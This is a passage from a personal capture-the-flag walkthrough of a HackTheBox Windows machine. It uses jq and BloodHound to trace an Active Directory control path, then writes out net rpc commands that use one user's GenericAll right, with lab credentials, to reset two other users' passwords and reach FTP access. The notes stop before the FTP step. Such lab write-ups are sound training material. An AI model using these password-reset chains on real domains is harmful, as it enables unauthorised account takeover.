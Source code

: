 Run this script 

![[HackTheBox/Windows/attachments/Pasted image 20250524233735.png]]

Modify script to filter on object identifier and property names
```bash
#!/bin/sh

cat XXXX_groups.json | jq '.data[] | select((.ObjectIdentifier | split("-") | last | tonumber) >1000) | [.ObjectIdentifier, .Properties.name]'
```

Re-run script 
![[HackTheBox/Windows/attachments/Pasted image 20250524234002.png]]

The custom group is "SHARE MODERATORS"

Back to BloodHound GUI

#### Bloodhound graphing
Examining Olivia's outbound controls to see there is a chain to Benjamin, who has FTP Access
- Set Olivia as owned
- Check Olivia's outbound controls 
- Olivia has GENERIC ALL to Michael so we can mark Michael as owned
![[HackTheBox/Windows/attachments/Pasted image 20250524234421.png]]

- Check Michael's outbound object control which is a path to Benjamin
- Set Benjamin as ending node 

![[HackTheBox/Windows/attachments/Pasted image 20250524234556.png]]

Benjamin is a member of the shared moderators group which was kind of convoluted to discover in the graph. 

Use Olivia's GenericAll to Michael to change his password using net rpc 
![[HackTheBox/Windows/attachments/Pasted image 20250524235019.png]]
#### net rpc 
Change michael's password
```
net rpc password "michael" "P@ssw0rd1!" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.10.11.42"
```

![[HackTheBox/Windows/attachments/Pasted image 20250524235328.png]]

Change benjamin's password also
```
net rpc password "benjamin" "P@ssw0rd1!" -U "administrator.htb"/"michael"%"P@ssw0rd1!" -S "10.10.11.42"
```

Now we can ftp as benjamin.
### Access ftp files as benjamin

